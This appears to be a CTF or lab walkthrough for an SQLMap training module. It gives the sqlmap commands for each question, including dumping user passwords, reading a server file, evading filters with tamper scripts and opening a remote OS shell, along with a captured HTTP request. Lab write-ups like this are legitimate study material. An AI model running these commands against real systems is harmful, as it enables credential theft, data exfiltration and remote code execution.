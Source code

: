 ```bash
```
* What's the name of the column containing "style" in it's name? (Case #1)
```bash
sqlmap http://94.237.63.130:55858/case1.php?id=1 --search -C style
```
* What's the Kimberly user's password? (Case #1)
``` bash
sqlmap http://94.237.63.130:55858/case1.php?id=1 --dump -D testdb -T users --batch
```
* flag8
```bash
sqlmap -r req.txt --csrf-token=t0ken -T flag8 --batch --dump
```
* flag9
```bash
sqlmap -r req.txt --randomize=uid -T flag9 --batch --dump
```
* flag10
```bash
sqlmap -r req.txt  -T flag10 --batch --dump
```
*  flag11
```bash
sqlmap -r req.txt --batch --tamper=between,randomcase -T flag11 --dump
```
* Try to use SQLMap to read the file "/var/www/html/flag.txt".
``` bash
sqlmap http://94.237.62.166:58313/?id=1 --is-dba -batch --file-read "/var/www/html/flag.txt"
```
* Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.
``` bash
sqlmap -u http://94.237.62.166:40727/?id=1 --batch --os-shell
```
* final_flag
	1. Locate the attack vector manually (got to shop.html)
	2. Hover over a product and click on add to cart
	3. Intercept the post request and work with it
``` bash
sqlmap -r req.txt --batch -T final_flag --dump --tamper=between,randomcase
```

``` HTTP
POST /action.php HTTP/1.1
Host: 94.237.60.32:37445
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.60.32:37445/shop.html
Content-Type: application/json
Content-Length: 8
Origin: http://94.237.60.32:37445
DNT: 1
Connection: close
Sec-GPC: 1

{"id":1}
```
---